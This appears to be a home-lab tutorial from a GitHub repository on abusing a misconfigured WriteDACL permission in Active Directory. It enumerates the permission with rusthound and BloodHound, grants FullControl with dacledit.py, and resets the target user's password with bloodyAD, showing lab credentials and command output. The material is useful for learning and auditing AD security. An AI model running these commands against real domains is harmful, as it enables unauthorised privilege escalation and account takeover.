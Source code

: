 # 🔐 WriteDACL

**WriteDACL** is a specific permission in Active Directory (AD) that allows a user or group to modify the **Discretionary Access Control List (DACL)** of an AD object. The DACL defines who has access to the object and what permissions they have (e.g., read, write, full control). A WriteDACL misconfiguration occurs when an unintended user or group is granted the WriteDACL permission on an AD object, enabling them to alter its security settings and potentially escalate privileges.

---

####  Legitimate Use

WriteDACL is typically assigned to administrators or specific service accounts for managing permissions. For example, an admin might need WriteDACL to update group membership permissions.

---

####  Scenario

Let’s suppose we have the credentials of user **jack**:

- **Username**: `jack`
- **Password**: `complex1@`

And `jack` has a **WriteDACL** on another user: **Haseeb**.


##  Setting Up a Misconfiguration

Create a user **Haseeb**.

Right-click and go to:  
**Properties → Security**

---

###  Add User

Click on **Add**:

<img src="Imgs/image1.png" alt="Error loading Image" />

Here, add user **jack** and click **OK**:

<img src="Imgs/image2.png" alt="Error loading Image" />

---

###  Modify Permissions

Now go to the **Advanced** option of user **Haseeb** and edit permissions for user **jack**:

<img src="Imgs/image3.png" alt="Error loading Image" />

Check the box for **Modify permissions**:

<img src="Imgs/image4.png" alt="Error loading Image" />


##  Enumeration from BloodHound

#### Data Collection using rust hound

```
rusthound --domain furious.local -u jack -p complex1@ --output .
```
---

Now, when we enumerate it using **BloodHound**, we can see that **jack** has **WriteDacl** permission on **Haseeb**.

<img src="Imgs/image5.png" alt="Error loading Image" />


##  Exploiting Target User

To exploit this misconfiguration, we use two utilities:

1. **dacledit** – to grant `jack` full control over the user `Haseeb`.
2. **BloodyAD** – to change the password of user `Haseeb`, since we now have full access.

---

###  Step 1: Grant Full Control Using dacledit

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-dacl]
└─$ dacledit.py -action 'write' -rights 'FullControl' -principal 'jack' -target 'haseeb' 'furious.local/jack':'complex1@'       
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250509-002857.bak
[*] DACL modified successfully!
````

---

###  Step 2: Change Password Using BloodyAD

```bash
┌──(kali㉿kali)-[~/Home-lab/dacl-abuse/write-dacl]
└─$ bloodyAD --host "192.168.129.140" -d "furious.local" -u "jack" -p "complex1@" set password "haseeb" "Password123"
[+] Password changed successfully!                                                                     
```


